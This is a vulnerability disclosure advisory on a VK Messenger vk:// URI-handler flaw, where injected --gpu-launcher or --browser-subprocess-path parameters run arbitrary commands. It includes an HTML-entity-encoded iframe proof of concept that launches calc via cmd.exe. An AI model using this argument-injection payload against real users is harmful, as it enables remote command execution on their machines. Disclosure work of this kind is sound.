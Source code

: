 **Vulnerability Summary**<br>
The following describes a vulnerability in VK Messenger that is triggered via the exploitation of improperly handled URI.
VK (VKontakte; [..], meaning InContact) is “an online social media and social networking service. It is available in several languages. VK allows users to message each other publicly or privately, to create groups, public pages and events, share and tag images, audio and video, and to play browser-based games. It is based in Saint Petersburg, Russia”.

**Credit**<br>
An independent security researcher has reported this vulnerability to Beyond Security’s SecuriTeam Secure Disclosure program.

**Affected Version**<br>
VK Messenger version 3.1.0.143

**Vendor Response**<br>
The vendor responded that the problem no longer affects the latest version – but didn’t provide any information on when it was fixed and whether it was fixed due to someone else reporting this vulnerability.

**Vulnerability Details**<br>
The VK Messenger, which is part of the VK package, registers a uri handler on Windows in the following way:

```
[HKEY_CLASSES_ROOT\vk]
"URL Protocol"=""
@="URL:vk"
[HKEY_CLASSES_ROOT\vk\shell]
[HKEY_CLASSES_ROOT\vk\shell\open]
[HKEY_CLASSES_ROOT\vk\shell\open\command]
@="\"C:\\Program Files\\VK\\vk.exe\" \"%1\""
```

When the browser processes the `vk://` uri handler it is possible to inject arbitrary command line parameters for vk.exe, since the application does not properly parse them. It is possible to inject the ‘–gpu-launcher=’ parameter to execute arbitrary commands. It is also possible to inject the ‘–browser-subprocess-path=’ parameter to execute arbitrary commands. Network share paths are allowed, too.<br>
Example of attack encoded in HTML entity:

`<iframe src='vk:?"&#32;&#45;&#45;&#103;&#112;&#117;&#45;&#108;&#97;&#117;&#110;&#99;&#104;&#101;&#114;&#61;&#34;&#99;&#109;&#100;&#46;&#101;&#120;&#101;&#32;&#47;&#99;&#32;&#115;&#116;&#97;&#114;&#116;&#32;&#99;&#97;&#108;&#99;&#34;&#32;&#45;&#45;'></iframe>`

When opening a malicious page, a notification box asks the user to open VK.
NOTE: The application is not in the auto-startup items, and the issue will work if the application is not already started.
